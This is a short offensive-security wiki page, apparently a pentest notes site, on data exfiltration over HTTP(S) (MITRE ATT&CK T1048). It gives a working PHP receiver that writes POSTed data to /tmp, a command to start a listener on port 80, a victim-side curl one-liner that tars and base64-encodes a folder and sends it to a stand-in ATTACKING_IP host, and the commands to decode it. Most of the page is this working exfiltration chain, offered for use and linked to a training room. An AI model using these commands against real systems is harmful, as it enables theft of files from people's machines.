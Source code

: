```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../pivoting/http-tunneling.md) as a good [exfiltration](./) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Curl" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - folderToExfiltrate | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
